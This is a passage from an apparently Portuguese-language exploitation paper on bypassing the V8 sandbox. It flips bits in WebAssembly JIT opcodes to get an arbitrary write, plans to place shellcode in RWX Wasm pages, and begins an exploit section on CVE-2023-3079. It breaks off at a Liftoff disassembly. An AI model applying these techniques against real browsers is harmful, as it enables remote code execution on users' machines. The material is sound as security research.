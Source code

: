 Se você se lembrar que as paginas de WebAssembly são RWX você pode perceber algo interessante: Temos um CTF de shellcoding!

Se escrevemos no endereço `[rsi+0x77]` o endereço da instrução `shr rcx, 24`, podemos subtrair 0x18 de algum lugar do opcode, vamos ver quais instruções podemos criar com isso:

```bash
r3tr0@pwn:~$ rasm2 -d 48c1e918
shr rcx, 0x18
r3tr0@pwn:~$ rasm2 -d 30c1e918 # 0x48-0x18=0x30
xor cl, al
invalid
invalid
r3tr0@pwn:~$ rasm2 -d 48a9e918 # 0xc1-0x18=0xa9
invalid
invalid
invalid
invalid
r3tr0@pwn:~$ rasm2 -d 48c1d118 # 0xe9-0x18=0xd1
rcl rcx, 0x18
```

Ótimo! Achamos algo muito útil! Conseguimos trocar a instrução `shr rcx, 0x18` por `rcl rcx, 0x18`, essa instrução apenas faz “Rotate” do valor. Isso parece o suficiente para ignorar o shift e utilizar endereços de 64 bits, dessa forma, podemos simplesmente usar essa função como “write any where” e copiar um shellcode para alguma função Wasm.

# Exploits

Vamos testar nossa teoria! Podemos fazer de duas formas, usar algum CVE recente ou as API's de corrupção de memória (é estranho que isso exista, mas a sua função é exatamente testar coisas como a sandbox), podemos ativar ela com a flag `v8_expose_memory_corruption_api=true` no arquivo `args.gn`. Nesse paper vamos testar as duas formas.

## CVE-2023-3079

> Exploit baseado em: [https://github.com/mistymntncop/CVE-2023-3079](https://github.com/mistymntncop/CVE-2023-3079)

Essa é uma falha onde vazamos o **TheHole** e forçamos um *type confusion*, não irei me aprofundar, pois não é o objetivo deste paper, mas se quiser ver de forma mais detalhada sobre o bug, leia o exploit original [aqui](https://github.com/mistymntncop/CVE-2023-3079/blob/main/exploit.js).

Vamos repetir o mesmo processo e ver o código gerado:

```wasm
(module
  (func $nop (export "nop")
    nop
  )
)
```

```nasm
--- WebAssembly code ---
name: wasm-function[0]
index: 0
kind: wasm function
compiler: Liftoff
Body (size = 128 = 88 + 40 padding)
Instructions (size = 76)
0x1c6675a9740     0  55                   push rbp
0x1c6675a9741     1  4889e5               REX.W movq rbp,rsp
0x1c6675a9744     4  6a08                 push 0x8
0x1c6675a9746     6  56                   push rsi
0x1c6675a9747     7  4881ec10000000       REX.W subq rsp,0x10
0x1c6675a974e     e  488b462f             REX.W movq rax,[rsi+0x2f]
```